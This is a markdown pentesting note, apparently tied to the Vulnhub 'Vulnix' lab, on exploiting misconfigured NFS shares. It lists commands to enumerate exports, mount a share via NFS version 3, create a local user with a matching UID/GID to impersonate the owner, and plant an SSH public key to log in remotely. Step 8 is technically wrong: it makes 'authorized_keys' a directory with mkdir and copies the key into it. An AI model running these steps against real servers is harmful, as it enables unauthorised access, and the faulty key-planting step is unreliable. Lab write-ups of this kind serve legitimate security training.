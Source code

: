 # Background
- Network File Share. 
- This is a service used so that people can access certain parts of a remote filesystem. If this is badly configured it could mean that you grant excessive access to users. 
- You mount the NFS folder onto a local folder of your machine to interact with it. If root squashing is enabled, then our ability to interact with the NFS is initially liminted.  However, if we can rollback the NFS version to #3, then we can get around root squashing.
  - The way NFS works with permissions: to access a locally mounted share, your UID and GID need to match the ones of the shared directory on the server.  NFS version 4 doesn't show the remote UID and GID, but NFS version 3 does show this informaiton.  So, you can just create a user with the correct username, UID, and GID on the attacker box to access a locally-mounted NFS that has root squashing enabled.
- The /etc/exports file on the NFS share lists the different share volumes available for mounting to other computers as well as configuration settings like root Squashing.

# Enumeration (Vulnhub:Vulnix)
1. Check to see what the filesystem is sharing through this service.
```
showmount -e [IP]
```
  - Note that the file directory is in the first column of this input and any Access Control Listings (ACL) is in the second column.  Generally the ACL is either a hostname or IP address that is the only one allowed to mount the NFS.  If it is neither, then it is usually a \*, which means any IP can mount the NFS directory (no ACL).
2. Create a directory location to mount the NFS file system to your box.
```
mkdir -p /[file location]/nfs
```
3. Mount the NFS to your attacker machine at the designated NFS mounting location.
```
mount -t nfs [IP]:/[target file system from #1] [attacker file system NFS location from #2] -nolock
```
  Example
  ```
  mount -t nfs 10.10.10.12:/home/vulnix /root/Boxes/Vulnix/Exploits/nfs -nolock
  ```
4. Try to access the NFS mount at the location you created in #2 on your local box.  If you're unable to access this location, then the target has correctly enabled [root_squashing](https://access.redhat.com/documentation/en-us/red_hat_enterprise_linux/6/html/security_guide/sect-security_guide-securing_nfs-do_not_use_the_no_root_squash_option) so that we can't read the contents.
  - A way around this is to see if version 3 of NFS is enabled.
5. See if NFS version 3 is allowed for the NFS.
```
mount -t nfs -o vers=3 [IP]:/[target file system from #1] [attacker file system NFS location from #2] -nolock
```
6. If we can mount with NFS version 3, we should list the mounted file permissions to read the UID and GID of the system.
```
ls -ld [attacker file system NFS location from #2]
```
7. Create a new user on the attacker box with the UID and GID identified in #6.
```
groupadd --gid [GID from #6] [group name]
useradd --uid [UID from #6] --groups [group name from previous cmd] [user name]
sudo -u [user name from above command] ls -la [attacker file system NFS location from #2]
```
8. If the NFS is a home directory of a user AND SSH is open on the target, then we can use our new access to the NFS to add our SSH public key to the home directory of the allowed user.  Then we can just SSH into the target with the user whose home directory is exposed through NFS where we just uploaded our SSH public key.
```
mkdir [attacker file system NFS location from #2]/.ssh/authorized_keys
cp ~/.ssh/id_rsa.pub [directory you created in last cmd]
ssh -i ~/.ssh/id_rsa [user name]@[IP]
```
